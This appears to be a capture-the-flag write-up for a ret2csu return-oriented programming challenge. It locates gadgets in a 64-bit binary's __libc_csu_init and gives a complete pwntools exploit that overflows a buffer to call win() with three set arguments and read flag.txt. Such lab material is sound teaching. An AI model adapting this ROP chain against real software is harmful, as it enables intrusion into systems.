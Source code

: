 Reference: https://guyinatuxedo.github.io/18-ret2_csu_dl/ropemporium_ret2csu/index.html
64 bit binary:
<br>
![](./1.png)
<br>
Ghidra jump to win() with 3 arguments to display flag.txt
<br>
![](./2.png)
![](./11.png)
<br>
rdi = `0xdeadbeef`, rsi =`0xcafebabecafebabe`, rdx = `0xd00df00dd00df00d`
<br>
![](./3.png)
<br>
Finding gadgets:
<br>
![](./7.png)
![](./4.png)
<br>
There is no `pop rdx` so lets try and find something that can change rdx.
<br>
![](./5.png)
<br>
This is in AT&T syntax hence, we can move r15 to rdx as well as move r14 to rsi, r13d to edi before calling (r12+rbx+8), then add 1 to rbx, rbx must = rbp before we return
<br>
![](./6.png)
<br>
Gadget 1:
```
  4012a8:       4c 89 fa                mov    %r15,%rdx
  4012ab:       4c 89 f6                mov    %r14,%rsi
  4012ae:       44 89 ef                mov    %r13d,%edi
  4012b1:       41 ff 14 dc             callq  *(%r12,%rbx,8)
```
Gadget 2:
```
  4012c2:       5b                      pop    %rbx
  4012c3:       5d                      pop    %rbp
  4012c4:       41 5c                   pop    %r12
  4012c6:       41 5d                   pop    %r13
  4012c8:       41 5e                   pop    %r14
  4012ca:       41 5f                   pop    %r15
  4012cc:       c3                      retq  
```
For the function we are calling we will call `_init`. The reason why I call this function instead of other function, is this one doesn't crash when I call it in this context. Let's find a pointer to it's address.` callq  *(%r12,%rbx,8)`
<br>
![](./8.png)
![](./10.png)
<br>
Building our payload:
```
from pwn import *

args = process("./args")
gadget1 = p64(0x4012a8)
gadget2 = p64(0x4012c2)
_init = p64(0x403e28)
win = p64(0x4011b2)
arg1 = p64(0x90909090deadbeef) #r13d to edi
arg2 = p64(0xcafebabecafebabe)
arg3 = p64(0xd00df00dd00df00d)

payload = "\x90" * 136 # vuln [128] + overwrite rsp
payload += gadget2
#cmp %rbx,%rbp
payload += p64(0) # set rbx to 0(+1)
payload += p64(1) # set rbp to 1 
payload += _init
payload += arg1
payload += arg2
payload += arg3
payload += gadget1
payload += p64(0) * 7 #rsp+8,rbx,rbp,r12,r13,r14,15
payload += win
#with open("./out.txt", "wb") as out:
# out.write(payload)
args.sendline(payload)
print(args.recv())
```